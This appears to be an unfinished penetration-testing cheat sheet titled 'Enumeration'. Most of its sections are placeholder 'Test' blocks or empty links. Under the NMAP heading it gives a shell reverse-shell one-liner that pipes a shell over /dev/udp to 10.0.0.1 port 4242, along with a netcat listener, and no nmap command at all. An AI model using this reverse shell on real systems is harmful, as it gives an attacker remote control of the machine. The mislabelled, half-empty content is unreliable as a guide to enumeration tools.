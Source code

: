 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [Directory](#Directory)
   * [DB](#DIRB)
   * [DIRBUSTER](#DIRBUSTER)
* [Credentials](#)
   * [John-the-Ripper](#)
* [](#)
* [](#)
* [](#)
* [](#)
* [](#)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
Test
Test
Test
Test
Test
Test
Test
Test
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
